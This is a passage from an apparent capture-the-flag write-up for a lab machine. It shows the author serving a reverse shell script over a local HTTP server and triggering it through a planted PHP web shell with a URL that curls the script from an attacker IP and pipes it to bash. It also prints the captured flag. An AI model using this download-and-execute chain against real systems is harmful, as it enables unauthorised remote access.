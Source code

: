 Start a web server in in the dir of shell.sh 

```bash
python3 -m http.server 8000
```


Use `curl` utility to fetch the bash reverse shell file from our local host and then pipe it to `bash`  in order to execute.

Visit the following URL containing the payload in the browser.

```bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.149:8000/shell.sh|bash
```

Downloaded shell.sh and executed it.

Ncat connected

Look for flag
```bash
www-data@three:/var/www/html$ ls
ls
images
index.php
shell.php
www-data@three:/var/www/html$ cd ..
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
```


---
## Flags
flag.txt
```bash
a980d99281a28d638ac68b9bf9453c2b
```


---
## Tags
---

#aws #awscli #httpserver #gobuster 